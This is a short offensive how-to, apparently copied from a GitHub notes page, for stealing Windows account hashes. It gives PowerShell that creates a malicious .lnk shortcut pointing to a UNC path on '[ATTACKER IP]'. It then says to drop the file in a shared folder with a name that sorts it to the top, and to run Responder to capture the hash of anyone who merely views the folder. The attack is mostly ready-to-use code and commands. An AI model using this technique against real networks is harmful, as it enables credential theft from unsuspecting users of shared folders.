 Create/Place a malicious .lnk file (shortcut) in a shared folder that, when seen (not clicked), sends a hash to the malicious actor. Naming the file with an "@" or "~" at the start of the filename bumps it to the top of the folder in a GUI view.
# How to do it
## Step 1: 
Create the file in Powershell. Replace "[ATTACKER IP]".
```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\[ATTACKER IP]\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
## Step 2:
Transfer the file onto the victim machine (if it wasn't created) and move it to a shared folder.
## Step 3: Run responder on attack machine.
```bash
sudo responder -I eth0 -P
```
Once the file is viewed, responder should pick up the hash of the account viewing it.
